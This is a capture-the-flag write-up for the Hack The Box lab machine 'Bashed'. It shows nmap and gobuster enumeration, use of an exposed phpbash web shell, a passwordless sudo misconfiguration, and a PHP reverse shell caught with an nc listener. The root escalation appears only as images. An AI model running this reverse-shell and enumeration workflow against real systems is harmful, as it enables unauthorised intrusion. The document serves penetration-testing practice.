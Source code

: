 ```yaml
---
title: "HTB - Bashed"
classes: wide
tag:
- "PHP bash"
- "Directory Bruteforce"
- "Easy Box"
- "TJ_Null's OSCP Prep"
header:
  teaser: /assets/images/htb/htb.png
ribbon: lawngreen
description: "Writeup for HTB - Bashed"
categories:
  - HTB
---
```


The given box ```Bashed``` is a Linux machine 

- [HackTheBox- Bashed](#hackthebox---Bashed)
- [Recon](#recon)
	- [Nmap Scan](#nmap-scan)
- [Enumeration](#enumeration)
	- [Site](#Site)
	- [Directory Bruteforcing](#Directory-Bruteforcing)
	- [Exploring phpbash.php](#Exploring-phpbash.php)
- [Shell as www-data](#Shell)
- [Shell as root](#Shell as root)

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/Bashed.png" >
</center>

## Recon

### Nmap Scan

`nmap` found one open port on TCP scan.

```shell
┌[us-vip-1]─[10.10.16.2][0xM3M0RY㉿kali]─[~/htb/easy_bashed]
└╼[★]$ cat nmap/initial_scan.nmap
# Nmap 7.92 scan initiated Thu Sep 15 01:52:04 2022 as: nmap -Pn -sC -sV -oN nmap/initial_scan.nmap -v 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.25s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 15 02:10:01 2022 -- 1 IP address (1 host up) scanned in 1077.51 seconds
```

## Enumeration

### Site

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/1.png" >
</center>

There is a hyperlink `phpbash` which takes to the github page. 

### Directory Bruteforcing

```shell
┌[us-vip-1]─[10.10.16.2][0xM3M0RY㉿kali]─[~]
└╼[★]$ gobuster dir -u http://10.10.10.68/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/15 02:02:50 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

from directory bruteforcing got 2 directories `php` and `dev` in that found some interesting files to execute the commands.

	dev/phpbash.min.php	
	dev/phpbash.php	
	php/sendMail.php	

### Exploring phpbash.php

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/2.png" >
</center>

`phpbash.php` file executes command from `www-data` user, but through enumeration got one more user `scriptmanager`

Once we are into `scriptmanager` user or if we execute anything from scriptmanager it gets execute without passwd.

```shell
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```


## Shell as www-data

For persistence, upload a `php-reverse-shell` to the box to get shell back,

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/3.png" >
</center>

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/4.png" >
</center>

```shell
┌[us-vip-1]─[10.10.16.2][0xM3M0RY㉿kali]─[~/htb/easy_bashed]
└╼[★]$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 57004
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 09:13:35 up  1:36,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@bashed:/$ ls
ls
bin   etc         lib         media  proc  sbin     sys  var
boot  home        lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv      usr
www-data@bashed:/$ cd /home
cd /home
www-data@bashed:/home$ ls
```

## Shell as root

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/5.png" >
</center>

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/6.png" >
</center>